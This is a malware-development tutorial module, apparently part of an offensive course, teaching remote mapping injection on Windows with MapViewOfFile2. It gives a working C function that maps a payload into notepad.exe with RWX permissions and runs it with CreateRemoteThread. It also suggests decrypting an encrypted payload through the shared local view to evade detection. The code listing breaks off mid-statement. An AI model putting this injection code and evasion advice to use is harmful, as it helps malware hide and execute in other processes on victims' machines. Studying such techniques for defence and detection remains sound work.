




Introduction
The previous module demonstrated a method to perform local payload execution without the need of using private memory. This module demonstrates the same technique on a remote process instead.
Remote Mapping Injection
This section explains the WinAPIs required to perform remote mapping injection. The steps to perform remote mapping injection are listed below.
CreateFileMapping is called to create a file mapping object.MapViewOfFile is then called to map the file mapping object into the local process address space.MapViewOfFile2, mapping the local view of file into the remote process, and thus our copied payload.MapViewOfFile2
MapViewOfFile2 maps a view of a file into the address space of a specified, remote process.
PVOID MapViewOfFile2(
[in] HANDLE FileMappingHandle, // Handle to the file mapping object returned by CreateFileMappingA/W
[in] HANDLE ProcessHandle, // Target process handle
[in] ULONG64 Offset, // Not required - NULL
[in, optional] PVOID BaseAddress, // Not required - NULL
[in] SIZE_T ViewSize, // Not required - NULL
[in] ULONG AllocationType, // Not required - NULL
[in] ULONG PageProtection // The desired page protection.
);FileMappingHandle - A HANDLE to a section that is to be mapped into the address space of the specified process.ProcessHandle - A HANDLE to a process into which the section will be mapped. The handle must have the PROCESS_VM_OPERATION access mask.PageProtection - The desired page protection.Implementation Note
Unlike local mapping injection, it's not necessary to make the locally mapped view of the file executable since the payload is not executed locally. Instead, the MapViewOfFile uses the FILE_MAP_WRITE flag in order to copy the payload. MapViewOfFile2 will then map the same bytes to the address space of the target process.
MapViewOfFile2 shares the file mapping handle with MapViewOfFile. Therefore, any modifications to the payload in the locally mapped view of the file is reflected in the remote mapped view of the file in the remote process. This is useful for real-world implementations where an encrypted payload needs to be run, as the payload can be mapped to the remote process and decrypted locally, thus decrypting the payload in the remote view of the file for execution.
Remote Mapping Injection Function
RemoteMapInject is a function that performs remote mapping injection. It takes 4 arguments:
hProcess - The handle to the target process.pPayload - The payload's base address.sPayloadSize - The size of the payload.ppAddress - A pointer to PVOID that receives the mapped memory's base address.The function allocates a locally mapped readable-writable buffer and then copies the payload to it. It then uses MapViewOfFile2 to map the local payload to a new remote buffer in the target process and finally returns the base address of the mapped memory.
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {
BOOL bSTATE = TRUE;
HANDLE hFile = NULL;
PVOID pMapLocalAddress = NULL,
pMapRemoteAddress = NULL;
// Create a file mapping handle with RWX memory permissions
// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call
hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
if (hFile == NULL) {
printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
// Maps the view of the payload to the memory
pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
if (pMapLocalAddress == NULL) {
printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
// Copying the payload to the mapped memory
memcpy(pMapLocalAddress, pPayload, sPayloadSize);
// Maps the payload to a new remote buffer in the target process
pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
if (pMapRemoteAddress == NULL) {
printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("\t[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);
_EndOfFunction:
*ppAddress = pMapRemoteAddress;
if (hFile)
CloseHandle(hFile);
returnUnmapViewOfFile
Recall that UnmapViewOfFile only takes the base address of the mapped view of a file that is to be unmapped. Calling the UnmapViewOfFile WinAPI to unmap the locally mapped payload is prohibited when the payload is still running because the remote view of the file is a reflection of the local one. Therefore, unmapping the local file map view will cause the remote process to crash since the payload is still active.
Demo
The target process for this demo is Notepad.exe.

The image below shows the locally mapped memory containing the payload. Notice that the permissions on the memory is RW.

MapViewOfFile2 maps the same bytes to the address space of the target process, notepad.exe. The remotely mapped memory now contains the payload with RWX permissions.

Executing the payload (Using CreateRemoteThread for simplicity)
